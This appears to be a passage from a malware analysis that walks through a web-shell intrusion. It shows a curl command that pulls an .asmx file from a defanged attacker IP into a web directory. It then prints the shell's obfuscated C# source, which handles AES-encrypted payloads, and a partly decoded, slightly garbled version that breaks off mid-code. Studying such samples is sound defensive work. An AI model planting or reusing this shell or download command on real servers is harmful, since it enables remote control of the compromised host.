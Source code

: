 ### Stage 1

```bash
curl -o D:\WWW\Web\test11.asmx hXXp://103.215.77[.]214:8080/3.asmx
```

We can download this file locally (or from our open-directory dump), and take a look at theweb source code:

```cs
<%@ WebService LanGuagE="C#" Class="gov8ODo" %>
public class gov8ODo : \u0053\u0079\u0073\u0074\u0065\u006D.Web.\u0053\u0065\u0072\u0076\u0069\u0063\u0065\u0073.WebService
{
        [\u0053\u0079\u0073\u0074\u0065\u006D.Web./*nt0hdn1eP*/\u0053\u0065\u0072\u0076\u0069\u0063\u0065\u0073.WebMethod(Enable\U00000053\U00000065\U00000073\U00000073\U00000069\U0000006F\U0000006E = true)]
        public string /*ARZVtAKEnn6W47Y*/Tas9er(string Tas9er)
        {
      \u0053\u0079\u0073\u0074\u0065\u006D.Text./*PtE*/\u0053\u0074\u0072\u0069\u006E\u0067\u0042\u0075\u0069\u006C\u0064\u0065\u0072 govDM3X1CGnw7WMF = new \u0053\u0079\u0073\u0074\u0065\u006D/*D7FmYToKAJC4b*/.Text.\u0053\u0074\u0072\u0069\u006E\u0067\u0042\u0075\u0069\u006C\u0064\u0065\u0072();
            try {

//[...REDACTED...]
      byte[] govT4 = govEUs8S4QpyCUGZh8./*L*/ToArray();
      govDM3X1CGnw7WMF.\U00000041\U00000070\U00000070\U00000065\U0000006E\U00000064(govkyA6AxNqptARra8.\u0053\u0075\u0062s\u0074\u0072\u0069\u006E\u0067(0, 16));
      govDM3X1CGnw7WMF.\U00000041\U00000070\U00000070\U00000065\U0000006E\U00000064/*XPXKW*/(\u0053\u0079\u0073\u0074\u0065\u006D.\U00000043\U0000006F\U0000006E\U00000076\U00000065\U00000072\U00000074./*UDCG5UOaWDP*/ToBase64String/*Oxt9BF9XfPjZn*/(new \u0053\u0079\u0073\u0074\u0065\u006D.\u0053\u0065\u0063\u0075\u0072\u0069\u0074\u0079.\u0043\u0072\u0079\u0070\u0074\u006F\u0067\u0072\u0061\u0070\u0068\u0079/*A9qQb*/.\u0052\u0069\u006A\u006E\u0064\u0061\u0065\u006C\u004D\u0061\u006E\u0061\u0067\u0065\u0064()./*rddeS*/CreateEncryptor(\u0053\u0079\u0073\u0074\u0065\u006D.Text.\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.Default.\U00000047\U00000065\U00000074\U00000042\U00000079\U00000074\U00000065\U00000073(govFvK), \u0053\u0079\u0073\u0074\u0065\u006D.Text.\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.Default.\U00000047\U00000065\U00000074\U00000042\U00000079\U00000074\U00000065\U00000073(govFvK)).\u0054\u0072\u0061\u006E\u0073\u0066\u006F\u0072\u006D\u0046\u0069\u006E\u0061\u006C\u0042\u006C\u006F\u0063\u006B(govT4, 0, govT4.Length)));
      govDM3X1CGnw7WMF.\U00000041\U00000070\U00000070\U00000065\U0000006E\U00000064(govkyA6AxNqptARra8.\u0053\u0075\u0062s\u0074\u0072\u0069\u006E\u0067(16)); } }
      catch (\u0053\u0079\u0073\u0074\u0065\u006D/*g*/.Exception) { }
      return govDM3X1CGnw7WMF.ToString();
    }
}
```

We can see the above file is obfsucated, using both standard C# (`\uXXXX`) and extended unicode formats (`\UXXXXXXXX`). With some CyberChef magic we can decode to plaintext C#:

```cs
< % @ WebService LanGuagE = "C#"
Class = "gov8ODo" % > public class gov8ODo: System.Web.Services.WebService {
  [System.Web.Services.WebMethod(Enable = true)] public string Tas9er(string Tas9er) {
    System.Text.StringBuilder govDM3X1CGnw7WMF = new System.Text.StringBuilder();
    try {
      string govJMnD6AwT = System.Text.ASCII.ASCII.GetString(System..(System.Text.ASCII.ASCII.GetString(System..("VkdGek9XVnk="))));
      string govFvK = "93a1d11603dcec67";
      string govkyA6AxNqptARra8 = System.BitConverter.ToString(new System.Security.Cryptography.().ComputeHash(System.Text..Default.(govJMnD6AwT + govFvK))).Replace("-", "");
      byte[] gov8BJZI = System..(System.Web.HttpUtility.UrlDecode(Tas9er));
      gov8BJZI = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text..Default.(govFvK), System.Text..Default.(govFvK)).TransformFinalBlock(gov8BJZI, 0, gov8BJZI.Length);
      if (Context.["payload"] == null) {
```